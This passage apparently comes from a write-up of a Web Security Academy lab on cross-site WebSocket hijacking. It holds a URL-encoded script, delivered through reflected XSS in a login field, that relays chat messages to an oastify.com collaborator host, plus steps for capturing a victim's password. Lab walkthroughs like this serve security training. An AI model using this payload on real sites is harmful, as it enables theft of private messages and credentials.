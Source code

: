 URL-Encoded CSWSH Payload:

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%32%33%30%30%64%39%30%33%61%61%38%33%33%38%38%30%65%31%39%39%39%63%30%30%66%66%30%30%31%35%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%31%31%30%74%6c%6c%31%73%62%79%66%6c%73%6f%37%75%61%6a%62%6c%79%39%6f%79%70%70%76%67%6a%36%37%76%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e

```

Full Exploit Payload

```
<script>
    document.location = "https://cms-0a2300d903aa833880e1999c00ff0015.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%32%39%30%30%39%62%30%34%65%32%65%35%38%32%38%30%34%66%63%31%66%37%30%30%62%38%30%30%64%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%69%66%31%77%37%73%69%67%61%31%63%65%7a%6a%33%30%62%38%6b%30%38%69%32%30%65%72%6b%69%38%62%77%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=aa";
</script>

```

Executing the Attack

Store the Payload: Save the full exploit payload on an exploit server.
Deliver to Victim: Send the payload URL to the victim, causing their browser to execute the script.

![image](https://github.com/user-attachments/assets/faf13081-6ed2-4e2b-bb83-3c27b8b2701b)


Monitor Collaborator: Check the collaborator tool (e.g., oastify.com) for intercepted WebSocket messages.

![image](https://github.com/user-attachments/assets/d0693d7b-35b9-4258-aecb-08538e14fd67)

One of the captured messages contains a password (e.g., 711asa…).



Completing the Lab

Use the intercepted password to log in to the cms subdomain.
Successful login completes the lab.
